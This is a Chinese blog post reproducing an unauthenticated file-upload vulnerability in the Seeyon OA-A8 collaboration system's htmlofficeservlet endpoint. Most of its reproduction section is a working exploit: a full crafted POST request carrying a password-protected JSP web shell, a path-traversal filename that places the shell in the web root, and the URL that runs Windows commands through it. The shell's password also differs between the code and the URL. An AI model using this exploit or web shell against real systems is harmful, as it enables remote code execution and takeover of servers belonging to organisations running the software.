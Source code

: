 ```yaml
---
layout:     post
title:      【漏洞复现】致远OA-A8系统htmlofficeservlet文件上传漏洞复现
subtitle:   文件上传漏洞
date:       2020-10-16
author:     matrix
header-img: img/websecurity.jpeg
catalog: true
tags:
    - 漏洞复现 
---
```


## 0x00 漏洞说明
该系统的漏洞点在于致远OA-A8系统的Servlet接口暴露，安全过滤处理措施不足，使得用户在无需认证的情况下实现任意文件上传。攻击者利用该漏洞，可在未授权的情况下，远程发送精心构造的网站后门文件，从而获取目标服务器权限，在目标服务器上执行任意代码。
## 0x01 影响版本
致远A8-V5协同管理软件 V6.1sp1
致远A8+协同管理软件V7.0、V7.0sp1、V7.0sp2、V7.0sp3
致远A8+协同管理软件V7.1
## 0x02 漏洞复现
先访问http://IP:PORT/seeyon/htmlofficeservlet 
出现DBSTEP V3.0 0 21 0 htmoffice operate err则可能存在漏洞
![-c717](/img/16027834744587.jpg)
POST数据包进行测试
```
POST /seeyon/htmlofficeservlet HTTP/1.1
Content-Length: 1121
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)
Host: xxxxxxxxx
Pragma: no-cacheDBSTEP V3.0     355             0               666             
DBSTEP=OKMLlKlV
OPTION=S3WYOSWLBSGr
currentUserId=zUCTwigsziCAPLesw4gsw4oEwV66
CREATEDATE=wUghPB3szB3Xwg66
RECORDID=qLSGw4SXzLeGw4V3wUw3zUoXwid6
originalFileId=wV66
originalCreateDate=wUghPB3szB3Xwg66
FILENAME=qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6
needReadFile=yRWZdAS6
originalCreateDate=wLSGP4oEzLKAz4=iz=66
<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp+"\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();} %><%if("clasee".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd")) + "</pre>");}else{out.println(":-)");}%>6e4f045d4b8506bf492ada7e3390d7ce
```
### payload
```
<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp+"\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();} %><%if("clasee".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd")) + "</pre>");}else{out.println(":-)");}%>6e4f045d4b8506bf492ada7e3390d7ce
```
### filename
```
..\..\..\ApacheJetspeed\webapps\seeyon\testtesta.jsp
```
### shellfileURL
```
/seeyon/testtesta.jsp?pwd=calsee&cmd=cmd+/c+dir
```
成功执行命令
![-c771](/img/16027834904441.jpg)



